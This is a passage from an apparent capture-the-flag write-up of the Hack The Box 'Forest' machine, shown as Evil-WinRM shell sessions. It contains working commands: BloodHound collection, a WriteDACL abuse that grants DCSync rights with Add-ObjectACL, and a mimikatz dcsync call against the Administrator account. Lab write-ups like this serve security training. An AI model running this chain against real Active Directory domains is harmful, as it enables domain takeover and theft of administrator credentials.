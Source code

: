 {{< highlight markdown >}}
# Finally got Invoke-BloodHound to run locally. getting data remotely did not produce enough detail in bloodhound (maybe user error?).

*Evil-WinRM* PS C:\Users\ricknmorty1\Documents> Invoke-BloodHound -DomainController forest.htb.local -LDAPUser ricknmorty1 -LDAPPass ricknmorty1 -CollectionMethod All -ZipFileName sh.zip -PrettyJson -JSONPrefix SH-data -Verbose  -StatusInterval 500 -Domain htb.local -SkipPing
{{< / highlight >}}

After grabbing the data from SharpHound and loading it up in AD Bloodhound, I checked the built in query "Shortest path to Domain Admin".

{{< figure src="/content/images/2020/03/Forest_AD-Bloodhound.png" caption="Find Shortest Path to Domain Admins" >}}

Next, I reviewed the suggested path, and after drilling down on the crucial step (WriteDACL), I found helpful instructions on how this attack works. Nice!

{{< figure src="/content/images/2020/03/Forest_WriteDACL.png" caption="WriteDACL to grant dcsync rights, then use that to \"sync\" the DA password and intercept the hash" >}}

The instructions did have a minor syntax wrinkle, but after reading the fine manual and using `get-help` 10,000 times (PowerShell is something I am working on improving), I managed to find the right syntax to grant DCSync.

{{< highlight markdown >}}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity ricknmorty1 -Rights DCSync -Verbose
Verbose: [Get-DomainSearcher] search base: LDAP://DC=htb,DC=local
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ricknmorty1)(name=ricknmorty1)(displayname=ricknmorty1))))
Verbose: [Get-DomainSearcher] search base: LDAP://DC=htb,DC=local
Verbose: [Get-DomainObject] Get-DomainObject filter string: (objectClass=*)
Verbose: [Add-DomainObjectAcl] Granting principal CN=ricknmorty1,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
Verbose: [Add-DomainObjectAcl] Granting principal CN=ricknmorty1,CN=Users,DC=htb,DC=local rights GUID '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=htb,DC=local
...
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
{{< / highlight >}}

Now, in another terminal where I had an evil-winrm shell as `ricknmorty`, I was finally able to run mimikatz and grab the Domain Admin hash. The astute reader will see I also do the DCSync grant for `ricknmorty1` again just before running mimikatz. I saw a couple errors in the verbose output of the grant when I ran it as `svc-alfresco` so I thought a little extra insurance couldn't hurt.

{{< highlight markdown >}}
*Evil-WinRM* PS C:\Users\ricknmorty1\Documents> Add-ObjectACL -PrincipalIdentity ricknmorty1 -Rights DCSync
*Evil-WinRM* PS C:\Users\ricknmorty1\Documents> .\mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Dec 22 2019 21:45:22
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
